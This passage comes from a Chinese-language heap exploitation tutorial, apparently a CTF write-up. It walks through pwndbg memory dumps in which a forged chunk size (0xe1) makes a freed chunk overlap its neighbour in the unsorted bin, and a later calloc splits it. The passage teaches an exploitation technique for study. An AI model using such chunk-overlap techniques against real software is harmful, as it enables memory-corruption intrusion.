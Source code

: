 ```python
0x5555557571e0:	0x0000000000000000	0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220:	0x0000000000000000	0x0000000000000000
------------------------------------------------------------------------
pwndbg>
```

可以看到，由于index1 size的修改，在释放的时候index1的大小被认为是0xe1，因此导致在加入unsortedbin时（2）处发生了变化，这意味着index1和index2都被加入到了unsortedbin（表面上，实际上只有index1）中。现在的bin状况只有unsortedbin：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610695478097-584d39eb-2fad-470f-9137-5315d74d4dda.png)

## 创建可以malloc unsortedbin中的堆块
```python
create(0x68)
```

创建之后堆内存如下：

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x6161616161616161	0x6161616161616161
------------------------------------------------------------------------
0x555555757020:	0x6161616161616161	0x00000000000000e1 #index1 
0x555555757030:	0x0000000000000000	0x0000000000000000 （1）
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2
0x5555557570a0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100:	0x00000000000000e0	0x0000000000000070 #index3 （2）
    			#index1+index2_size	#index3_size
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170:	0x0000000000000000	0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0:	0x0000000000000000	0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220:	0x0000000000000000	0x0000000000000000
------------------------------------------------------------------------
pwndbg>
```

由于申请内存使用的是calloc，因此申请后原内存中的数据全部清零。

> [https://www.yuque.com/cyberangel/rg9gdm/xw9ohw](https://www.yuque.com/cyberangel/rg9gdm/xw9ohw)
>
> 当一个较大的（在bin中的）chunk（由于malloc）被分割成两半之后，如果剩下的部分大于MINSIZE，就会被放到unsortedbin中。
>

